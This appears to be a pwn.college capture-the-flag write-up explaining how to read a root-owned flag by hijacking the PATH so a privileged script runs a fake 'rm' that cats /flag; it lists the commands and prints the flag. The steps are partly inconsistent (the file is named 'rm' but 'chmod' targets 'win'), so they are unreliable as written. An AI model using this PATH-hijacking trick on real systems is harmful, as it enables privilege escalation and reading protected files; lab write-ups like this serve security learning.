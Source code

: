 Since the `rm` command in `/challenge/run` will delete the flag, we can create another command named `rm` which reads the flag and replace it in the `PATH` variable.

First the user needs to find the location and names of `cat` and `rm`.
```
/run/dojo/bin/cat
/run/dojo/bin/rm
```

Then the user needs to create a file named `rm` with contents
```
/run/dojo/bin/cat /flag
```

Then the user needs to change its permissions so that `root` can execute it using the command `chmod o+x /home/hacker/win`.

Next the user needs to set the `PATH` variable as `PATH="/home/hacker"`

Now the user can invoke `/challenge/run` and get the flag.

#### Commands run:

```sh
$ which rm
$ which cat
$ chmod o+x /home/hacker/win
$ PATH="/home/hacker"
$ /challenge/run
```

## Flag: 

```
pwn.college{0gHekV7JGO3qS3ABz_9ptywbDfl.QX3cjM1wyM1EzNzEzW}
```

### Notes:

- We can create commands with same name to hijack commands.

